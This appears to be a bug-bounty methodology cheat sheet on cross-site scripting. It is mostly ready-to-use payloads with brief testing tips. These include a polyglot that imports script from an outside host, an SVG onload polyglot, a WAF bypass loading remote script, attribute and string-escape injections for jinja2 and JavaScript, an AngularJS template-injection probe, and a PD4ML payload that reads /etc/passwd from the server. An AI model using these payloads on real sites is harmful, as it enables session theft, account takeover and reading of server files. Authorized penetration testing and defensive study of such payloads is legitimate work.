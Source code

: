 ### XSS all in one
```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\http://X55.is/.source))}//\76-->
```
### XSS payloads
`https://github.com/foospidy/payloads/tree/master/other/xss`
### Quick simple payload to use 
`"samsec%25%25"><u>`
### XSS mindmap
`https://raw.githubusercontent.com/cyberspacekittens/XSS/master/XSS2.png`
### XSS ployglot
```
\u0022\u003c%26quot;%26gt;%26lt;"';}};"></ScRipt><svg/oNLoad=confirm(69)>${{7*7}}
```

#### XSS in SVG image 
![image](https://github.com/Sameer484/methodology/assets/110039044/e40a3018-7707-457b-a054-bf3bb3832674)


##### If there is reflected value in the iframe src but akamai blocks it, we can try to bypass it using below payload
````
link=qwe"srcdoc="\u003ce<script%26Tab;src=//dom.xss>\u003ce</script%26Tab;e>

````
![Screenshot from 2023-06-16 18-53-58](https://github.com/Sameer484/methodology/assets/110039044/58c56999-42da-4fcb-a447-b11f9e223984)

#### If you found jinja2 templating engine being used , then see if the double quote is placed when using templating syntax in attribute. If directly {{name}} is being used then we can use "x eventhandler=alert(1)" to execute xss. Using space we can escape the attribute.
````
<input type={{name}}>         ==> vulnerable code
<input type="{{name}}" >      ==> well secure code
````


#### There a small quirk in DOM xss
```
IF you see this code snippet
let a =createElement('div');
a.innerHTML="variable here"
b=sanitize(a);
and add to dom after here

we can execute xss before the sanitize or adding to dom. <img src=x onerror=alert(1)> actually executes before appending to the dom.
```

---
#### Quick tips
- See the reflected value and open inspect element. Search(ctrl+f) for the entered keywords and trace where is it being used.
- If the value is being set to variable , we can escape it and enter javascript
  ````
  var a= "hacked"    //hacked is searched keyword in search bar and it is being assigned here like this.

  we can escape it using
     hacked";alert(2)//
  ````

- If no value are reflected in the response , then test for DOM based XSS. Open DOM Invador and enter the canary value in the search bar or anywhere in the query parameter.
- See if the website is built with Angular js. Now see if the reflected payload is inside the  ng-app directive{\<div ng-app> hacked(this is reflected value)}, check for {{7*7}} CSTI and if DOM is reflected with 49, then it's confirmed that CSTI is possible. 
 
  ---
 - XSS Basic Payload  ( anything'"<x</   )
## XSS in PDF generation using PD4ML library
The normal javascript injection doesn't work with pd4ml, but there is way to add attachment to the pdf. This way we can read internal files.
`<pd4ml:attachment src=”file:///etc/passwd”><pd4ml:attachment>`
